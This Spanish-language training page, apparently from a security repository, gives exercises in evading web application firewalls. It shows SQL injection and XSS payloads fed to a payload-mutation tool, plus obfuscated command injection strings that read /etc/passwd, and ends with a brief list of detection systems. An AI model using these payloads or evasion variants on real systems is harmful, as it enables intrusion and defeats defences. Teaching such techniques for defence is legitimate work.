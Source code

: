 ## 🧪 Ejercicios Prácticos

### Ejercicio 1: SQL Injection Evasion
```bash
# Ejecutar el AI Payload Mutator
python3 ai_payload_mutator.py --payload "' OR 1=1--" --technique all

# Analizar efectividad
python3 ai_payload_mutator.py --payload "admin'--" --analyze --output mutations.json
```

### Ejercicio 2: XSS Evasion
```bash
# Generar mutaciones XSS
python3 ai_payload_mutator.py --payload "<script>alert(1)</script>" --technique encoding_variations

# Fuzzing con IA
python3 ai_payload_mutator.py --payload "javascript:alert(1)" --technique ai_fuzzing --iterations 20
```

### Ejercicio 3: Command Injection Evasion
```bash
# Payload original
; cat /etc/passwd

# Técnicas de evasión
;/**/cat/**//etc/passwd
;c'a't /e't'c/p'a'sswd
;ca$@t /etc/pa${@}sswd
;`cat` /`echo etc`/passwd
```

## 🛡️ Detección y Prevención

### Sistemas de Detección Modernos
1. **WAF (Web Application Firewall)**
   - Pattern matching
   - Machine Learning detection
   - Behavioral analysis

2. **EDR/XDR Systems**
   - Behavioral monitoring
   - Process telemetry
   - Memory analysis

3. **SIEM/SOAR Platforms**
   - Event correlation
   - Threat intelligence
   - Automated response
